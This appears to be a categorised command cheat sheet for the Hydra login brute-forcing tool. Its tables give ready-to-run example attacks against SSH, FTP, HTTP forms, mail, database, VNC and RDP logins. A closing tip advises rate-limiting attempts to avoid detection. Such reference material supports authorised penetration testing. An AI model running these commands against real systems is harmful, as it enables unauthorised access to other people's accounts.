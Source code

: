 ## Hydra Command Guide (Categorized)

### 🔰 Getting Started

| Function               | Command                      | Example                                      |
|------------------------|------------------------------|----------------------------------------------|
| Start Hydra Tool       | `hydra`                      | `hydra`                                      |
| Display Help           | `hydra -h` or `--help`       | `hydra -h`                                   |
| Show Module Usage Info | `-U`                         | `hydra -U`                                   |

---

### 🎯 Targeting

| Function                   | Command                 | Example                                                  |
|----------------------------|-------------------------|----------------------------------------------------------|
| Target a Host              | `-h <hostname>`         | `hydra -h 192.168.1.10`                                  |
| Set Protocol               | `<protocol>`            | `hydra -l admin -P pass.txt ssh://192.168.1.10`          |
| Set Port                   | `-s <port>`             | `hydra -l admin -P pass.txt -s 2222 ssh://192.168.1.10`  |
| Use SSL                    | `-S`                    | `hydra -S -l admin -P pass.txt ftp://example.com`        |
| Use Old SSL Version        | `-O`                    | `hydra -O -l admin -P pass.txt https://example.com`      |
| Load Targets From File     | `-M <file>`             | `hydra -L users.txt -P passwords.txt -M targets.txt ssh` |

---

### 🔐 Credentials

| Function                              | Command           | Example                                                            |
|---------------------------------------|-------------------|--------------------------------------------------------------------|
| Set Username                          | `-l <username>`   | `hydra -l admin`                                                   |
| Set Username List                     | `-L <file>`       | `hydra -L users.txt`                                               |
| Set Password                          | `-p <password>`   | `hydra -p password123`                                             |
| Set Password List                     | `-P <file>`       | `hydra -P rockyou.txt`                                             |
| Use Colon-Separated Credential File   | `-C <file>`       | `hydra -C creds.txt`                                               |
| Null/Login/Reverse Passwords          | `-e nsr`          | `hydra -l admin -e nsr -P passwords.txt ssh://192.168.1.10`        |
| Loop Through Users Sequentially       | `-u`              | `hydra -L users.txt -p 123456 -u ssh://192.168.1.10`               |

---

### 🔁 Brute Force Options

| Function                           | Command                 | Example                                                        |
|------------------------------------|--------------------------|----------------------------------------------------------------|
| Brute Force with Charset           | `-x MIN:MAX:CHARSET`     | `hydra -l admin -x 4:6:aA1 ssh://192.168.1.10`                 |
| Disable Symbols in Brute Force     | `-y`                     | `hydra -l admin -x 4:6:aA1 -y ssh://192.168.1.10`              |
| Brute Force Without Random Shuffle | `-r`                     | `hydra -x 4:6:aA1 -r ssh://192.168.1.10`                       |
| Module-Specific Options            | `-m <option>`            | `hydra -m "/admin" -l admin -P passwords.txt http-get://target`|

---

### ⚙️ Execution Control

| Function                              | Command            | Example                                                           |
|---------------------------------------|---------------------|-------------------------------------------------------------------|
| Execute Attack                        | *Command Format*    | `hydra -l <user> -P <wordlist> <protocol>://<host>`              |
| Set Threads                           | `-t <number>`       | `hydra -l admin -P pass.txt -t 32 ssh://192.168.1.10`            |
| Global Threads for Target List        | `-T <number>`       | `hydra -T 64 -M targets.txt ssh`                                 |
| Wait Time Between Connections         | `-w <seconds>`      | `hydra -w 5`                                                      |
| Wait Time Per Login Attempt           | `-c <seconds>`      | `hydra -c 10`                                                     |
| Exit After First Found Result         | `-f`                | `hydra -l admin -P passwords.txt -f ssh://192.168.1.10`          |
| Exit After All Found Results          | `-F`                | `hydra -F -L users.txt -P passwords.txt ssh://192.168.1.10`      |
| Restore Session                       | `-R`                | `hydra -R`                                                       |
| Ignore Restore File                   | `-I`                | `hydra -I`                                                       |

---

### 📝 Output & Logging

| Function              | Command          | Example                                                           |
|-----------------------|------------------|--------------------------------------------------------------------|
| Save Output to File   | `-o <file>`      | `hydra -l admin -P pass.txt -o results.txt ssh://192.168.1.10`    |
| Output Format         | `-b <format>`    | `hydra -b json`                                                   |

---

### 🔧 Advanced Options

| Function         | Command           | Example                                                        |
|------------------|-------------------|----------------------------------------------------------------|
| Quiet Mode       | `-q`              | `hydra -q -l admin -P passwords.txt ssh://192.168.1.10`        |
| Verbose Mode     | `-v` / `-V` / `-d`| `hydra -v -l admin -P pass.txt ssh://192.168.1.10`             |

---

### 🌐 Networking Options

| Function         | Command   | Example                                                            |
|------------------|-----------|--------------------------------------------------------------------|
| Use IPv4         | `-4`      | `hydra -4 -l admin -P passwords.txt ssh://192.168.1.10`           |
| Use IPv6         | `-6`      | `hydra -6 -l admin -P passwords.txt ssh://192.168.1.10`           |

---

## {.cols-1}

### 🧩 Common Services/Protocols

| Hydra Service | Service/Protocol         | Description                                                                 | Example Command                                                                                     |
|---------------|---------------------------|-----------------------------------------------------------------------------|------------------------------------------------------------------------------------------------------|
| ftp           | File Transfer Protocol     | Brute-force FTP login credentials.                                          | `hydra -l admin -P /path/to/password_list.txt ftp://192.168.1.100`                                  |
| ssh           | Secure Shell               | Brute-force SSH login, commonly used for remote system access.              | `hydra -l root -P /path/to/password_list.txt ssh://192.168.1.100`                                   |
| http-get/post | HTTP Web Services          | Brute-force HTTP login forms (GET/POST).                                    | `hydra -l admin -P /path/to/password_list.txt http-post-form "/login.php:user=^USER^&pass=^PASS^:F=incorrect"` |
| smtp          | Simple Mail Transfer       | Attack email SMTP login.                                                    | `hydra -l admin -P /path/to/password_list.txt smtp://mail.server.com`                               |
| pop3          | Post Office Protocol       | Attack POP3 email login.                                                    | `hydra -l user@example.com -P /path/to/password_list.txt pop3://mail.server.com`                    |
| imap          | IMAP                       | Brute-force login for IMAP mail services.                                   | `hydra -l user@example.com -P /path/to/password_list.txt imap://mail.server.com`                    |
| mysql         | MySQL Database             | Brute-force MySQL database logins.                                          | `hydra -l root -P /path/to/password_list.txt mysql://192.168.1.100`                                 |
| mssql         | Microsoft SQL Server       | Brute-force MSSQL database logins.                                          | `hydra -l sa -P /path/to/password_list.txt mssql://192.168.1.100`                                   |
| vnc           | Virtual Network Computing  | Attack VNC for remote desktop login.                                        | `hydra -P /path/to/password_list.txt vnc://192.168.1.100`                                           |
| rdp           | Remote Desktop Protocol    | Brute-force Microsoft RDP login.                                            | `hydra -l admin -P /path/to/password_list.txt rdp://192.168.1.100`                                  |

---

> ✅ **Pro Tip:** Always use strong wordlists and rate-limit brute-force attempts to avoid detection or blacklisting.
> ⚠️ **Legal Notice:** Only use Hydra on systems you own or have written permission to test.
